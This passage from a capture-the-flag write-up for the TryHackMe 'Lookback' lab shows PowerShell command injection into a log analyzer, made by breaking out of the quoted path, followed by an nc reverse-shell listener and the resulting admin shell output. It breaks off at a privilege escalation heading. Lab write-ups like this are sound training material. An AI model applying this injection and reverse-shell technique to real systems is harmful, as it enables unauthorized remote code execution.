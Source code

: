 **The log analyzer's Powershell command should be:**
```powershell
Get-Content('C:\" & path & "')
```

To escape that, we need to:

- Add `'`, to escape the string
- Add `);` to finish the command
- Add our commands that we want to inject
- Add `#` to comment out the `'`

Nice! We got RCE now!

**Let's get a shell!**

**Set up a `nc` listener:**
```shell
┌[siunam♥earth]-(~/ctf/thm/ctf/Lookback)-[2023.05.16|14:59:09(HKT)]
└> nc -lnvp 4444                     
listening on [any] 4444 ...
```

**Send the reverse shell payload:** (Generated from [revshells.com](https://www.revshells.com/))

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/Lookback/images/Pasted%20image%2020230516155021.png)

```shell
┌[siunam♥earth]-(~/ctf/thm/ctf/Lookback)-[2023.05.16|14:59:09(HKT)]
└> nc -lnvp 4444                     
listening on [any] 4444 ...
connect to [10.8.70.81] from (UNKNOWN) [10.10.113.159] 15439

PS C:\windows\system32\inetsrv> whoami;ipconfig
thm\admin

Windows IP Configuration


Ethernet adapter Ethernet 3:

   Connection-specific DNS Suffix  . : eu-west-1.compute.internal
   Link-local IPv6 Address . . . . . : fe80::25cc:9c59:642e:f48c%8
   IPv4 Address. . . . . . . . . . . : 10.10.113.159
   Subnet Mask . . . . . . . . . . . : 255.255.0.0
   Default Gateway . . . . . . . . . : 10.10.0.1
```

I'm `admin`!

**user.txt:**
```powershell
PS C:\windows\system32\inetsrv> gc C:\Users\dev\Desktop\user.txt
THM{Redacted}
```

## Privilege Escalation
